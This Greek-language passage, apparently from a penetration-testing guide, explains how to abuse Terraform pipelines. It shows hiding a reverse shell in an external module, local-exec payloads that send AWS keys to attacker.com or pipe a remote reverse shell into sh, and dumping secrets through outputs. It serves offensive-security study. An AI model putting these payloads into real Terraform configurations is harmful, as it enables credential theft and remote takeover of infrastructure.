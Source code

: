 Μπορείτε να βρείτε ένα παράδειγμα στο [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

**Χρησιμοποιώντας μια εξωτερική αναφορά**

Και οι δύο αναφερόμενες επιλογές είναι χρήσιμες αλλά όχι πολύ διακριτικές (η δεύτερη είναι πιο διακριτική αλλά πιο περίπλοκη από την πρώτη). Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα και με **πιο διακριτικό τρόπο**, ακολουθώντας αυτές τις προτάσεις:

- Αντί να προσθέσετε το rev shell απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα rev shell στο [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

- Στην εξωτερική πηγή, χρησιμοποιήστε τη δυνατότητα **ref** για να κρύψετε τον **κώδικα terraform rev shell σε ένα branch** μέσα στο repo, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Το Terraform apply θα εκτελεστεί για να εφαρμόσει όλες τις αλλαγές, μπορείτε επίσης να το εκμεταλλευτείτε για να αποκτήσετε RCE εισάγοντας **ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο payload όπως τα παρακάτω καταλήγει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με **πιο διακριτικό τρόπο χρησιμοποιώντας εξωτερικές αναφορές**.

## Secrets Dumps

Μπορείτε να έχετε **τιμές μυστικών που χρησιμοποιούνται από το terraform να εκτυπώνονται** εκτελώντας `terraform apply` προσθέτοντας στο αρχείο terraform κάτι σαν:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Κατάχρηση Αρχείων Κατάστασης Terraform
